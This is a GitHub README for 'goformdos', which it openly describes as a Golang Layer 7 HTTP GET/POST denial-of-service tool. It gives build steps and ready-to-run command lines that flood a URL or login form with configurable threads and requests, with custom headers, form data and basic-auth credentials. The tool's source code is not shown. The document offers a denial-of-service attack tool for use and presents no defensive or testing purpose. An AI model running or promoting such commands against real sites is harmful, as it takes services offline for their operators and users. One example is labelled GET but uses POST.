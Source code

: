 
## Goformdos

![GitHub go.mod Go version](https://img.shields.io/github/go-mod/go-version/pierelucas/goformdos) ![GitHub](https://img.shields.io/github/license/pierelucas/goformdos) ![GitHub last commit](https://img.shields.io/github/last-commit/pierelucas/goformdos)

### Golang Layer 7 HTTP GET/POST DOS TOOL

#
### Install

    go build

or

    go install

#
### Usage

+ GET

        ./goformdos -u https://example.com/ -m POST -t 100 -r 100 -hp headers.txt 

+ POST
 
        ./goformdos -u https://example.com/login.php -m POST -t 100 -r 100 -fp forms.txt -hp headers.txt 

+ POST/GET + Basic Authorization

        ./goformdos -u https://example.com/login.php -m POST -t 100 -r 100 -fp forms.txt -hp headers.txt -a USER:PASSWORD

+ POST/GET + Basic Authorization + custom Logfile

        ./goformdos -u https://example.com/login.php -m POST -t 100 -r 100 -fp forms.txt -hp headers.txt -a USER:PASSWORD -o log.txt

#
### How to write Configuration files

+ Generally, like a Hashmap/JSON
        
        Key:Value